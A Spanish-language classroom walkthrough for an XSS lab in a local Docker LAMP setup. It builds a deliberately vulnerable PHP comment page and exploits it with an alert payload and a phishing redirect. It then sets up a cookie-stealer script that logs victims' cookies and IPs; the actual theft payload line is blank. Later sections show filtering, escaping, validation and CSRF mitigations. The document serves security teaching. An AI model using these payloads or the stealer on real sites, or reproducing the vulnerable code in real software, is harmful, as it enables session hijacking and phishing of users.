# Actividad XSS – Desarrollo completo paso a paso

## 1. Preparación del entorno

1. Abrir una terminal y situarse en la carpeta del entorno LAMP de prácticas (la que contiene los scripts y el `docker-compose.yml`):

```bash
cd /ruta/a/tu/entorno/LAMP
```

2. Restaurar la configuración original:

```bash
sudo ./restaurarConfiguracionOriginal.sh
```

3. Levantar el escenario multicontenedor:

```bash
docker-compose up -d
```

4. Verificar que los contenedores están corriendo (opcional):

```bash
docker ps
```



---

## 2. Creación del código vulnerable `comment.php`

1. Crear el archivo:

```bash
nano ./www/comment.php
```

2. Pegar el siguiente código **vulnerable a XSS**:

```php
<?php
// Activar errores en entorno de prácticas (opcional)
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

$comment = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // SIN SEGURIDAD: se guarda el comentario tal cual
    $comment = $_POST['comment'] ?? '';
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentarios INSEGUROS</title>
</head>
<body>
    <h1>Comentarios (versión insegura)</h1>

    <form method="post">
        <label for="comment">Comentario:</label><br>
        <!-- SIN htmlspecialchars: se muestra el contenido sin escapar -->
        <textarea name="comment" id="comment" rows="4" cols="50"><?= $comment ?></textarea><br>
        <button type="submit">Enviar</button>
    </form>

    <?php if ($comment !== ''): ?>
        <h2>Comentario recibido (SIN sanitizar)</h2>
        <!-- Aquí también se imprime directamente, vulnerable a XSS -->
        <p><?= $comment ?></p>
    <?php endif; ?>
</body>
</html>
```



3. Guardar y cerrar el archivo.

---

## 3. Explotación de XSS en `comment.php`

1. Abrir el navegador y acceder a:

```text
http://localhost/comment.php
```

### 3.1 Explotación 1 – `alert`

2. En el campo de comentario, introducir:

```html
<script>alert('XSS ejecutado!')</script>
```

3. Enviar el formulario.



### 3.2 Explotación 2 – Redirección a phishing

1. De nuevo en el formulario, introducir:

```html
<script>window.location='https://fakeupdate.net/win11/'</script>
```

2. Enviar el formulario.



---
## 4. Ataque para robar cookies – Servidor atacante

### 4.1 Preparar estructura del servidor atacante

1. Crear la carpeta y los archivos necesarios (en la máquina anfitriona, aprovechando el bind mount):

```bash
mkdir -p ./www/cookieStealer/
touch ./www/cookieStealer/index.php
touch ./www/cookieStealer/cookies.txt
chmod 777 ./www/cookieStealer/cookies.txt
```



### 4.2 Código de `index.php` del atacante

2. Editar el archivo:

```bash
nano ./www/cookieStealer/index.php
```

3. Poner un código típico de robo de cookies, por ejemplo:

```php
<?php
// Guardar la cookie recibida en un fichero
if (isset($_GET['cookie'])) {
    $cookie = $_GET['cookie'];
    $ip     = $_SERVER['REMOTE_ADDR'];
    $fecha  = date('Y-m-d H:i:s');

    $linea = "[$fecha] IP: $ip COOKIE: $cookie" . PHP_EOL;
    file_put_contents(__DIR__ . '/cookies.txt', $linea, FILE_APPEND | LOCK_EX);
}
?>
```

4. Guardar y cerrar.



### 4.3 Lanzar el ataque desde `comment.php`

1. Acceder de nuevo a:

```text
http://localhost/comment.php
```

2. En el comentario, introducir:

```html
<script>document.write('')</script>
```

3. Enviar el formulario.



6. En terminal, comprobar el contenido del fichero de cookies:

```bash
cat ./www/cookieStealer/cookies.txt
```



---

## 5. Primera mitigación – `comment1.php` con filtrado manual

### 5.1 Crear `comment1.php`

1. Crear y editar:

```bash
nano ./www/comment1.php
```

2. Pegar:

```php
<?php
// Activar errores en entorno de prácticas
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

$comment = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener el comentario enviado (o cadena vacía si no existe)
    $raw = $_POST['comment'] ?? '';
    // Sanitizarlo
    $comment = filter_string_polyfill($raw);
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentarios seguros</title>
</head>
<body>
    <form method="post">
        <label for="comment">Comentario:</label><br>
        <textarea name="comment" id="comment" rows="4" cols="50"><?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?></textarea><br>
        <button type="submit">Enviar</button>
    </form>

    <?php if ($comment !== ''): ?>
        <h2>Comentario recibido (sanitizado)</h2>
        <p><?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?></p>
    <?php endif; ?>
</body>
</html>
```



3. Guardar y cerrar.

### 5.2 Probar la mitigación

1. Acceder a:

```text
http://localhost/comment1.php
```

2. Probar con el payload:

```html
<script>alert('XSS ejecutado!')</script>
```



---
## 6. Mitigación con `htmlspecialchars` – `comment2.php`

### 6.1 Crear `comment2.php`

1. Crear/editar:

```bash
nano ./www/comment2.php
```

2. Pegar:

```php
<?php
// Mostrar errores en entorno de prácticas
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

$comment = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Recogemos el comentario crudo del formulario
    $comment = $_POST['comment'] ?? '';
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentarios seguros</title>
</head>
<body>
    <h1>Comentarios (versión con htmlspecialchars)</h1>

    <form method="post">
        <label for="comment">Comentario:</label><br>
        <textarea name="comment" id="comment" rows="4" cols="50">
<?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
        </textarea><br>
        <button type="submit">Enviar</button>
    </form>

    <?php if ($comment !== ''): ?>
        <h2>Comentario recibido (escapado)</h2>
        <p><?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?></p>
    <?php endif; ?>
</body>
</html>
```



3. Guardar y cerrar.

### 6.2 Probar `comment2.php`

1. Acceder a:

```text
http://localhost/comment2.php
```

2. Probar de nuevo con:

```html
<script>alert('XSS ejecutado!')</script>
```



---

## 7. Validación de entrada – `comment3.php`

### 7.1 Crear `comment3.php`

1. Editar:

```bash
nano ./www/comment3.php
```

2. Pegar:

```php
<?php
// Mostrar errores en entorno de prácticas
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

$comment = '';
$error   = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $comment = $_POST['comment'] ?? '';
    $comment = trim($comment); // opcional, para no aceptar solo espacios

    $length = mb_strlen($comment, 'UTF-8');

    if ($length === 0) {
        $error = 'El comentario no puede estar vacío.';
    } elseif ($length > 500) {
        $error = 'El comentario no puede tener más de 500 caracteres.';
    }
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentarios (comment3)</title>
</head>
<body>
    <h1>Comentarios (comment3, con validación)</h1>

    <?php if ($error !== ''): ?>
        <p style="color: red;">
            <?= htmlspecialchars($error, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
        </p>
    <?php endif; ?>

    <form method="post">
        <label for="comment">Comentario:</label><br>
        <textarea name="comment" id="comment" rows="4" cols="50">
<?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
        </textarea><br>
        <button type="submit">Enviar</button>
    </form>

    <?php if ($error === '' && $comment !== ''): ?>
        <h2>Comentario recibido</h2>
        <p><?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?></p>
    <?php endif; ?>
</body>
</html>
```



3. Guardar y cerrar.

### 7.2 Probar `comment3.php`

1. Acceder a:

```text
http://localhost/comment3.php
```

2. Enviar un comentario vacío (solo espacios) y comprobar el mensaje de error.
3. Enviar un comentario muy largo (> 500 caracteres) y comprobar el mensaje de error.
4. Enviar un comentario normal y verificar que se muestra correctamente.



---
## 8. Código seguro con todas las mitigaciones – `comment4.php`

> Nota: aquí se combinan filtrado, escape, validación y token CSRF básico.

### 8.1 Crear `comment4.php`

1. Editar:

```bash
nano ./www/comment4.php
```

2. Pegar el código:

```php
<?php
// Mostrar errores en entorno de prácticas
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

// Función de filtrado original
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

session_start();

// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

$comment = '';
$error   = '';
$success = '';

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    // Verificar el token CSRF
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        $error = "Error: Token CSRF inválido.";
    } else {
        // Obtener y sanitizar el comentario
        $comment = $_POST['comment'] ?? '';
        $comment = filter_string_polyfill($comment);
        $comment = htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');

        // Validación de longitud y evitar comentarios vacíos
        $length = mb_strlen($comment, 'UTF-8');

        if ($length === 0) {
            $error = "El comentario no puede estar vacío.";
        } elseif ($length > 500) {
            $error = "El comentario no puede tener más de 500 caracteres.";
        } else {
            $success = "Comentario publicado:";
        }
    }
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentarios seguros (comment4)</title>
</head>
<body>
    <h1>Comentarios (comment4, con CSRF y filtro)</h1>

    <?php if ($error !== ''): ?>
        <p style="color: red;">
            <?= htmlspecialchars($error, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
        </p>
    <?php endif; ?>

    <?php if ($success !== '' && $comment !== ''): ?>
        <p style="color: green;">
            <?= htmlspecialchars($success, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
        </p>
    <?php endif; ?>

    <form method="post">
        <label for="comment">Comentario:</label><br>
        <textarea name="comment" id="comment" rows="4" cols="50">
<?= $comment ?>
        </textarea><br>

        <!-- Campo oculto con el token CSRF -->
        <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($_SESSION['csrf_token'], ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>">

        <button type="submit">Enviar</button>
    </form>

    <?php if ($success !== '' && $comment !== ''): ?>
        <h2>Comentario recibido</h2>
        <p><?= $comment ?></p>
    <?php endif; ?>
</body>
</html>
```



3. Guardar y cerrar.

### 8.2 Probar `comment4.php`

1. Acceder a:

```text
http://localhost/comment4.php
```

2. Enviar un comentario normal y comprobar que:
   - Se muestra el mensaje de éxito.
   - El comentario aparece escapado.



3. Probar a enviar un comentario vacío o muy largo para comprobar los errores.



---

## 9. Guardar configuraciones y apagar el entorno

Cuando termines la actividad:

1. Guardar las configuraciones en el snapshot `XSS`:

```bash
sudo ./guardarConfiguraciones.sh XSS
```

2. Restaurar de nuevo la configuración original:

```bash
sudo ./restaurarConfiguracionOriginal.sh
```

3. Parar el entorno si no vas a seguir usándolo:

```bash
docker compose stop
```


